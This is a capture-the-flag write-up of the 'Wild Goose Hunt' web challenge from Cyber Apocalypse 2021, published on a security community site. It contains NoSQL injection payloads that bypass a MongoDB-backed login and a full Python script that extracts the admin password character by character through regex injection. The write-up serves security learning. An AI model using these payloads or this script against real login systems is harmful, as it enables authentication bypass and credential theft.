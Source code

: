 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | Wild Goose Hunt Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: web
challenge: Wild Goose Hunt
tags: "web, twh, sqli, nosql, python"
date: 2021-04-24T00:00:00+00:00
last_update: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## Wild Goose Hunt

> Solved by : thewhiteh4t

* We have a cool login page and source of the web app for this one
* entrypoint.sh contains the following :

```bash
    #!/bin/ash
    
    # Secure entrypoint
    chmod 600 /entrypoint.sh
    mkdir /tmp/mongodb
    mongod --noauth --dbpath /tmp/mongodb/ &
    sleep 2
    mongo heros --eval "db.createCollection('users')"
    mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
    /usr/bin/supervisord -c /etc/supervisord.conf
```

* we can see that the flag is being stored as the password of admin
* we need to somehow extract the password
* since its mongoDB first assumption was to check for NoSQL injection
* Here is the error message we get in burp for a normal attempt

![](https://i.imgur.com/P2my3g3.png)

* Lets switch to repeater here

![](https://i.imgur.com/miWWAps.png)

* so we are getting a json response and the message is being displayed in the frontend
* next i tried some basic payloads for NoSQL injection

```
username[$ne]=lol&password[$ne]=lol
```

![](https://i.imgur.com/H6Da6q7.png)

* Authentication bypassed! but we dont get any functionality in the frontend so i proceeded with more payloads

```
username=admin&password[$regex]=A*
```

![](https://i.imgur.com/NCoQigL.png)

* This is an interesting payload because we can use a wildcard to check if a particular character is present in the password or not! 
* we know that the flag is the password and flag begins with `CHTB{` so I tried that next

```
username=admin&password[$regex]=CHTB{.*
```

![](https://i.imgur.com/6ya2cBg.png)

* And it works again!
* Now we can bruteforce characters and check for success message to get correct characters
* I created a small python script for it

```python
    #!/usr/bin/env python3
    #################################
    ## Author    : thewhiteh4t ######
    ## Challenge : Wild Goose Hunt ##
    #################################
    import json
    import requests
    ip = '138.68.187.25'
    port = 31370
    url = f'http://{ip}:{port}/api/login'
    flag = 'CHTB{'
    charset = '_01234abcdefghijklmnopqrstuvwxyz'
    loop_iter = 1
    while flag.endswith('}') == False:
        for char in charset:
            if loop_iter == 1:
                payload = flag + char + '.*'
            else:
                payload = flag + '}'
            data = {
                'username': 'admin',
                'password[$regex]': payload
            }
            try:
                rqst = requests.post(url, data=data)
            except Exception as e:
                print(f'[-] Exception : {e}')
                exit()
            if rqst.status_code == 200:
                resp = rqst.text
                json_resp = json.loads(resp)
                status = json_resp['logged']
                if status == 1:
                    if payload.endswith('}') == False:
                        flag = payload.replace('.*', '')
                    else:
                        flag = payload
                        print(f'FLAG : {flag}')
                        exit()
                    print(f'FLAG : {flag}')
                    loop_iter = 0
                    break
            else:
                print(f'[-] Error : {rqst.status_code}')
        loop_iter += 1
```

![](https://i.imgur.com/6L20wKy.png)
